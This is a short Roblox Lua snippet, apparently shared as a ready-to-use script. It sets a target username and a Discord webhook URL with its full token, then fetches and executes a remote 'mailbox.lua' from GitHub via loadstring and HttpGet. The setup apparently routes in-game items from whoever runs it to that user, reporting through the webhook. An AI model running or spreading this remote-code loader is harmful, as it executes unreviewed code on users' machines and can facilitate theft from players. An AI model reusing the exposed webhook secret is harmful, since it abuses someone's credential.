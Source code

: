 UserName = "chyfon3"
WebHook = "https://discord.com/api/webhooks/1232482437087498291/u7IGezQnVj11aZFNxeofdU_CUDuh976HLKjDjJ7OT4xNujDtuX2fob0h47DuCNl91EWR"

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/mailbox.lua", true))()
